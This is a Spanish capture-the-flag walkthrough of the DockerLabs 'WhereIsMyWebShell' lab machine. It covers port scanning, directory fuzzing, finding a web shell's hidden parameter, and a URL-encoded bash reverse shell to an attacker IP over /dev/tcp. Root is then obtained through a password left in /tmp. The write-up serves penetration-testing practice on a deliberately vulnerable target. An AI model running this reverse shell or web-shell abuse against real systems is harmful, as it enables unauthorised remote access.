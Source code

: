# WhereIsMyWebShell DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip whereismywebshell.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh whereismywebshell.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:55 EST
Nmap scan report for insanity.dl (172.17.0.2)
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

Si entramos dentro de la pagina veremos una pagina normal, por lo que haremos un poco mas de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2510]
/server-status        (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que encontramos `2` cosas bastantes interesantes si entramos en la siguiente pagina...

```
URL = http://<IP>/warning.html
```

Veremos lo siguiente:

```
Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...
```

Por lo que vamos a realizar un poco de `fuzzing` en busca del parametro oculto en el `shell.php` que puede ejecutar codigo.

## WFUZZ

```shell
wfuzz -w <WORDLIST> -u 'http://<IP>/shell.php?FUZZ=whoami' --hh 0
```

Info:

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                     
=====================================================================

000115401:   200        2 L      2 W        21 Ch       "parameter" 
```

Vemos que encontramos el parametro `parameter`, por lo que vamos a comprobarlo:

```
URL = http://<IP>/shell.php?parameter=whoami
```

Info:

```
www-data
```

Vemos que funciona, por lo que nos crearemos una `reverse shell` de la siguiente forma:

```
URL = http://<IP>/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.5.186/7777 0>%261"
```

Tendremos que sustituir los `&` en formato `URL` que seria `%26` para que se lo pueda tragar y lo interprete bien.

Pero antes de ejecutarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si ejecutamos lo de la `URL` y nos vamos donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 44808
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@f19c77e8e3b7:/var/www/html$ whoami
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si vemos que archivos a creado el usuario `root`, veremos lo siguiente:

```shell
find / -type f -user root 2>/dev/null
```

Info:

```
................................<RESTO_CODIGO>...................................
/sys/module/drm/sections/___srcu_struct_ptrs
/sys/module/drm/sections/.altinstr_aux
/sys/module/drm/sections/__ex_table
/sys/module/drm/sections/__bpf_raw_tp_map
/sys/module/drm/sections/.rodata.str1.8
/sys/module/drm/sections/.export_symbol
/sys/module/drm/sections/.ref.data
/run/apache2/apache2.pid
/run/adduser
/tmp/.secret.txt
/.dockerenv
```

Vemos que hay una ruta interesante llamada `/tmp/.secret.txt` que si lo leemos veremos lo siguiente:

```
cat /tmp/.secret.txt
```

Info:

```
contraseñaderoot123
```

Por lo que vemos puede ser la contraseña de `root` por lo que haremos lo siguiente:

```shell
su root
```

Metemos como contraseña `contraseñaderoot123` y veremos que somos `root` por lo que habremos terminado la maquina.
